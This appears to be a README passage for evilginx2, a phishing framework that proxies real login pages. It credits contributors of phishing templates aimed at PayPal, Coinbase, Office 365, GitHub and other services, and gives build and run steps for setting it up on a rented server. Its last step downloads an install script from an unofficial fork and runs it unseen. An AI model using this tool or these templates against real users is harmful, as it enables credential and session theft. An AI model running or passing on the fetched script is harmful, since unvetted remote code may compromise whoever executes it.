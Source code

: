 ## Phishlet Masters - Hall of Fame

Please thank the following contributors for devoting their precious time to deliver us fresh phishlets! (in order of first contributions)

[**@an0nud4y**](https://twitter.com/an0nud4y) - PayPal, TikTok, Coinbase, Airbnb

[**@cust0msync**](https://twitter.com/cust0msync) - Amazon, Reddit

[**@white_fi**](https://twitter.com/white_fi) - Twitter

[**rvrsh3ll @424f424f**](https://twitter.com/424f424f) - Citrix

[**audibleblink @4lex**](https://twitter.com/4lex) - GitHub

[**@JamesCullum**](https://github.com/JamesCullum) - Office 365

## Installation

You can either use a [precompiled binary package](https://github.com/kgretzky/evilginx2/releases) for your architecture or you can compile **evilginx2** from source.

You will need an external server where you'll host your **evilginx2** installation. I personally recommend Digital Ocean and if you follow my referral link, you will [get an extra $10 to spend on servers for free](https://m.do.co/c/50338abc7ffe).

Evilginx runs very well on the most basic Debian 8 VPS.

#### Installing from source

In order to compile from source, make sure you have installed **GO** of version at least **1.14.0** (get it from [here](https://golang.org/doc/install)).

When you have GO installed, type in the following:

```
sudo apt-get -y install git make
git clone https://github.com/kgretzky/evilginx2.git
cd evilginx2
make
```

You can now either run **evilginx2** from local directory like:
```
sudo ./bin/evilginx -p ./phishlets/
```
or install it globally:
```
sudo make install
sudo evilginx
```

#### Installing from script
wget https://raw.githubusercontent.com/penetrattt/evilginx2/devil/installgo.sh
chmod 700 installgo.sh
./installgo.sh
